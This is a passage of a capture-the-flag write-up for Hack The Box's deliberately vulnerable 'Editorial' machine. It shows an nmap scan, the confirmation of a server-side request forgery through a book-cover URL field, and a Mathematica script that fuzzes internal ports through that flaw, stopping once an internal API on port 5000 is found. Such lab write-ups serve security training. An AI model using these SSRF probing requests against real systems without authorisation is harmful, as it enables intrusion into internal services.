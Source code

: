 Editorial (https://app.hackthebox.com/machines/608) from Hack The Box is vulnerable by design Linux machine and was part of their Season 5 competition. At the time, I was knee-deep in my OSEP studies, but I still found some time to work on other pentesting skills by trying to solve boxes for this competition. 

Initial enumeration revealed a web server running on port 80 and ssh on port 22.

```bash
Nmap scan report for editorial.htb (10.10.11.20)
Host is up, received user-set (0.095s latency).
Scanned at 2024-06-17 20:58:15 EDT for 98s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMApl7gtas1JLYVJ1BwP3Kpc6oXk6sp2JyCHM37ULGN+DRZ4kw2BBqO/yozkui+j1Yma1wnYsxv0oVYhjGeJavM=
|   256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMXtxiT4ZZTGZX4222Zer7f/kAWwdCWM/rGzRrGVZhYx
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Editorial Tiempo Arriba
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

I proceed to launch a web browser to review the site. There is a redirect to http://editorial.htb so this doesn't load because editorial.htb doesn't resolve. After adding editorial.htb along with it's IP Address to /etc/hosts, I reload the page and am able to browse it. In short order, I came across the page below and started to test the form. The first field in the Book information form allowed entering a URL so I entered a URL that pointed back to my IP Address of the VPN interface on my Kail VM. I then started a `netcat` listener on port 80 on my VM.

![Editorial Upload Page][Images/UWLPT/01-ssrf.png]

After a couple of false starts, I was able to determine that I needed to select "Prieview" to receive a connection back. I was using BurpSuite to allow me to easily change the request for testing. Forwarding the Request along results in a response that directs to a JPEG image file.


![Netcat listener connection along with BurpSuite Request and Response](Images/UWLPT/02-ssrf-confirmed.png)

Based on the response, it seems we're looking at an Server-Side Request Forgery (SSRF) after making a request to localhost (aka 127.0.0.1) and it points to the same JPEG file.


![Probing localhost](Images/UWLPT/04-localhost.png)

My next thought was to try and figure out if another web server or even service was running locally. To test this theory, I would need to test all 65535 possible TCP ports that could be open internally. Testing all these ports isn't difficult, but automating the testing requires taking the request and fuzzing possible ports `http://127.0.0.1:FUZZ` and then reviewing the response. This can be done using `ffuf` or other fuzzing tool, but I decided that I'd try using `Wolfram Mathematica` for no other reason that I wanted to try.

I started with the basic text of the request from Burp Suite and convert the request to a function template so I could insert port numbers easily. I'm no pro Wolfram Language coder, so keep this in mind because my solution probably isn't near optimal, but it worked. The code to make the requests is below. The code works by providing a port number and if the response doesn't contain the string `/static/images/`, the port and response Body are printed; otherwise, just print the port. The only reason I printed the port if `/static/images/` was matched was to verify my code worked.

```mathematica
makeRequests[port_]:=Module[{boundary,bt,request,response},
boundary="---------------------------452647181736560613536731952";
bt=StringTemplate["
-----------------------------452647181736560613536731952
Content-Disposition: form-data; name=\"bookurl\"

http://127.0.0.1:``
-----------------------------452647181736560613536731952
Content-Disposition: form-data; name=\"bookfile\"; filename=\"\"
Content-Type: application/octet-stream


-----------------------------452647181736560613536731952--
"][port];
request=HTTPRequest["http://editorial.htb/upload-cover",<|"Method"->"POST","Headers"->{"Host"->"editorial.htb","User-Agent"->"Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0","Accept"->"*/*","Accept-Language"->"en-US,en;q=0.5","Accept-Encoding"->"gzip, deflate, br","Content-Type"->"multipart/form-data; boundary="<>boundary,"Content-Length"->ToString[StringLength[bt]],"Origin"->"http://editorial.htb","Referer"->"http://editorial.htb/upload"},"Body"->bt|>];
response=URLRead[request];
If[!StringContainsQ[response["Body"],"/static/images/"],Print[<|port->response["Body"]|>],Print[port]]
]
```

I didn't want to run over all +65k ports so I started with a list of commonly using web ports.

```mathematica
popularWebserverPorts={"80","443","8080","8443","8000","8888","8081","8444","3000","9000","5000","8082","9090","8880"};
```

Execute our code and see what happens.

```mathematica
makeRequests[#]&/@popularWebserverPorts
```

On port 5000, there is a URL fragment which doesn't point to a JPEG.

![](Images/UWLPT/12-wl-popular-web-service-ports.png)

Fortunately, one can "see" the contents of these links through the main website. I had tested the JPEG file earlier in the browser. We can make a request for this file.

```mathematica
URLRead[HTTPRequest["http://editorial.htb/static/uploads/4fceb143-596a-4068-999c-b3ff4003f166"]]
```

This request returns a JSON respose. 

![JSON Response Text](Images/UWLPT/14-wl-json.png)

Reviewing the response, the author's endpoint  or the changelog seem to be the most interesting, but why not retrieve them all.

